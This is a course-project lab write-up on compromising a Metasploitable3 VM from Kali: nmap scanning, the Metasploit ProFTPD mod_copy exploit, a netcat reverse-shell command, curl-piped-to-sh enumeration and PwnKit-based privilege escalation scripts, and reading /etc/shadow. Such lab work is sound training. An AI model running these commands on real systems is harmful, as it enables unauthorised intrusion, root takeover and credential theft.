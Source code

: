 # 📚 Phase 1: Setup and Compromise the Service

---

## 🛠️ 1. Environment Setup

### 1.1 Import Victim VM (Metasploitable3)

- Downloaded `.ova` file from [SourceForge](https://sourceforge.net/projects/metasploitable3-ub1404upgraded/files/)
- Open VirtualBox → File → Import Appliance
- Customized settings (RAM=2048MB, CPU=2)

**Screenshots:**
- ![1-virtualbox_attacker_machine.png](./screenshots/1-virtualbox_attacker_machine.png)
- ![2-import_appliance_option.png](./screenshots/2-import_appliance_option.png)
- ![3-select_metasploitable3_ova.png](./screenshots/3-select_metasploitable3_ova.png)
- ![4-import_appliance_settings.png](./screenshots/4-import_appliance_settings.png)
- ![5-import_progress.png](./screenshots/5-import_progress.png)

---

### 1.2 Boot the Victim VM

- Started VM with credentials:
  - `username: vagrant`
  - `password: vagrant`

**Screenshot:**
- ![6-metasploitable3_login_success.png](./screenshots/6-metasploitable3_login_success.png)

---

### 1.3 Obtain Victim IP Address

- Victim (Metasploitable3) IP: `10.0.2.15`

**Screenshots:**
- ![7-ifconfig_command.png](./screenshots/7-ifconfig_command.png)
- ![8-victim_ip_found.png](./screenshots/8-victim_ip_found.png)

---

### 1.4 Obtain Attacker IP Address & Confirm Network Connectivity

- Attacker (Kali) IP: `10.0.2.6`
- Pinged victim from attacker:
```bash
ping 10.0.2.15
```

**Screenshot:**
- ![9-kali_ping_success.png](./screenshots/9-kali_ping_success.png)

---

# 💣 2. TASK 1.1: Compromise Service Using Metasploit

---

## 2.1 Scan Victim with Nmap

```bash
nmap -sV 10.0.2.15
```
- Discovered ProFTPD 1.3.5 on port 21

**Screenshot:**
- ![10-nmap_scan_results.png](./screenshots/10-nmap-scan-results.png)

---

## 2.2 Launch Metasploit Console

```bash
sudo msfconsole
```

**Screenshot:**
- ![11-start_msfconsole.png](./screenshots/11-launch-msfconsole.png)

---

## 2.3 Search and Use Exploit

```bash
search mod_copy
use 0
```

**Screenshot:**
- ![12-search_and_use_modcopy_exploit.png](./screenshots/12-search_and_use_modcopy_exploit.png)

---

## 2.4 Configure Exploit Options

```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```

**Screenshot:**
- ![13-configure_rhosts_sitepath.png](./screenshots/13-configure_rhosts_sitepath.png)

---

## 2.5 Configure Payload and Reverse Shell Command

```bash
set payload 5
set LHOST 10.0.2.6
set LPORT 4444
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
```

**Screenshot:**
- ![14-set_payload_and_reverse_shell_command.png](./screenshots/14-set_payload_and_reverse_shell_command.png)

---

## 2.6 Start Netcat Listener (Terminal A)

```bash
nc -lnvp 4444
```

**Screenshot:**
- ![15-start_nc_listener.png](./screenshots/15-start_nc_listener.png)

---

## 2.7 Run Exploit (Terminal B)

```bash
run
```

**Screenshot:**
- ![16-run_exploit.png](./screenshots/16-run_exploit.png)

---

## 2.8 Confirm Reverse Shell Access

```bash
whoami
ls
```

**Screenshot:**
- ![17-confirm_shell_access.png](./screenshots/17-confirm_shell_access.png)

---

# 🛠️ 3. TASK 1.2: Custom Scripts & Privilege Escalation

---

## 3.1 Run Custom Enumeration Script (lightpeas.sh)

```bash
curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/lightpeas.sh | sh
```

**Screenshot:**
- ![18-run_lightpeas_script.png](./screenshots/18-run_lightpeas_script.png)

---

## 3.2 Execute Custom Privilege Escalation (escalate.sh)

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/escalate.sh)"
```

**Screenshot:**
- ![19-run_escalate_script.png](./screenshots/19-run_escalate_script.png)

---

## 3.3 Confirm Root Access

```bash
whoami
cat /etc/shadow
```

**Screenshot:**
- ![20-confirm_root_access.png](./screenshots/20-confirm_root_access.png)

---

# 📆 Custom Scripts Used

| Script | Purpose |
|:------|:--------|
| `lightpeas.sh` | Local enumeration script (gather system info) |
| `ExploitRoot.c` | Custom compiled PwnKit-based root exploit |
| `escalate.sh` | Automated script to compile and run ExploitRoot.c |

✅ Located at: `phase1/custom/`

---
